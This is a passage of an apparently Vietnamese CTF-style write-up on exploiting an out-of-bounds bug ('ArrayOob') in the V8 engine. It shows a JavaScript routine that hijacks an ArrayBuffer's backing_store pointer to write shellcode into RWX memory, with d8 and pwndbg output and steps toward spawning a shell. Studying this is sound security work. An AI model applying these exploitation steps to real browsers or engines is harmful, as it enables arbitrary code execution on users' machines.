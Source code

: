 ```cpp
function shell_copy(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);

    console.log("\033[31mbuff: 0x\033[0m"+ buf_addr.toString(16))
    console.log("\033[31mdebug dataview: 0x\033[0m"+ addrof(dataview).toString(16))
    let backing_store_addr = buf_addr + 0x20n;
    wrivar(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

```
- với wasm ta chỉ có thể copy shellcode vào vùng địa chỉ mà ko phải rwx bằng việc tạo 1 ArrayBuffer, tuy nhiên ta có quyền ghi nên ta có thể overwrite địa chỉ của ta muốn vào cấu trúc của ArrayBuffer để thay đổi địa chỉ mà shellcode sẽ được copy vào,
```cpp
d8>     let buf = new ArrayBuffer(0x100);
undefined
d8> %DebugPrint(buf) 
DebugPrint: 0xddb90f0dd59: [JSArrayBuffer]
 - map: 0x3563a9e021b9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x39bcdbd8e981 <Object map = 0x3563a9e02209>
 - elements: 0x2e379cb40c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x561627199f10
 - byte_length: 256
 - detachable
 - properties: 0x2e379cb40c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
```
- backing_store chính là địa chỉ mà shellcode sẽ được copy vào mặc định, ta sẽ thay đổi địa chỉ này
```asm
pwndbg> tel 0xddb90f0dd59-1
00:0000│  0xddb90f0dd58 —▸ 0x3563a9e021b9 ◂— 0x800002e379cb401
01:0008│  0xddb90f0dd60 —▸ 0x2e379cb40c71 ◂— 0x2e379cb408
02:0010│  0xddb90f0dd68 —▸ 0x2e379cb40c71 ◂— 0x2e379cb408
03:0018│  0xddb90f0dd70 ◂— 0x100
04:0020│  0xddb90f0dd78 —▸ 0x561627199f10 ◂— 0
```
- chỉ cần dùng địa chỉ obj + 0x20 sẽ ra địa chỉ cần ghi, và sau đó ghi địa chỉ rwx vào rồi copy shellcode vào đó
- tiếp theo để chạy shellcode thì cần ghi vào rip, để xác định xem cần ghi vào đâu chính xác ta sẽ giả sử ghi vào 1 địa chỉ không hợp lệ, gdb sẽ dừng tại 1 chỗ mà không thể đi tiếp được
- ta biết đây là nơi mà lúc ghi được thực thi, sau khi ghi là return vì vậy ta sẽ ghi vào đúng chỗ mà ret vào 
```asm
●:2 ► 0x558979894443 <v8::internal::Builtin_Impl_ArrayOob(v8::internal::BuiltinArguments, v8::internal::Isolate*)+291>    movsd  qword ptr [r12 + rcx + 0xf], xmm0
```
- và cuối cùng là getshell
